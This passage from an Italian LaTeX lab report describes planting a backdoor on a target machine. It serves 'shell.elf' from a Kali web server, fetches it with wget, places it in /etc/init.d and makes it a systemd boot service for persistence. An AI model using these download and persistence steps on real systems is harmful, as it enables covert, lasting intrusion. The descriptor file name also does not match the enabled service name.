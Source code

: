 \subsection{Trasferimento della \emph{backdoor} sulla macchina target}
L'eseguibile della \emph{backdoor} ed il relativo \emph{script} che si occupa di richiamarla sono stati creati sulla macchina \emph{Kali} e successivamente trasferiti sulla macchina target sfruttando il \emph{Web Server} di \emph{Kali} ed il comando \emph{wget} della macchina target. In particolare, sulla macchina \emph{Kali}, i file \emph{`shell.elf'} e \emph{`in.sh'} sono stati inseriti nella directory \emph{`/var/www/html'} e successivamente è stato avviato il \emph{Web Server `apache2'} mediante il comando:
\begin{lstlisting}[language=bash] 
    $ sudo systemctl start apache2
\end{lstlisting}
D'altro canto, sulla macchina target è stato effettuato l'accesso come utente \emph{root} e sono stati prelevati i \emph{file} mediante una connessione al \emph{Web Server} di \emph{Kali} sfruttando i comandi:
\begin{lstlisting}[language=bash] 
    $ wget http://10.0.2.15/shell.elf
    $ wget http://10.0.2.15/in.sh
\end{lstlisting}
I file prelevati sono stati spostati nella \emph{directory `/etc/init.d'} e gli sono stati forniti i permessi di esecuzione mediante i comandi:
\begin{lstlisting}[language=bash] 
    $ chmod +x /etc/init.d/shell.elf
    $ chmod +x /etc/init.d/in.sh
\end{lstlisting}

\subsection{Attivazione della \emph{backdoor} come processo da eseguire all'avvio}
Al fine di eseguire la \emph{backdoor} ad ogni avvio del sistema, è necessario impostare il file \emph{in.sh} come servizio da eseguire all'avvio. A tale scopo è stato creato il file \emph{`/lib/systemd/system/shellscript.service.service'}, che funge da descrittore per il servizio da creare, avente il contenuto riportato nella figura \ref{fig:service}. 
Sono, infine, stati lanciati i seguenti comandi, al fine di abilitare ed eseguire il servizio appena definito:
\begin{lstlisting}[language=bash] 
    $ systemctl daemon-reload
    $ systemctl enable shellscript.service
    $ systemctl start shellscript.service
\end{lstlisting}
\begin{figure}[h]
    \centering
    \includegraphics[scale=1]{capitoli/images/service.png}
    \caption{Descrittore del servizio relativo alla backdoor}
    \label{fig:service}
\end{figure}
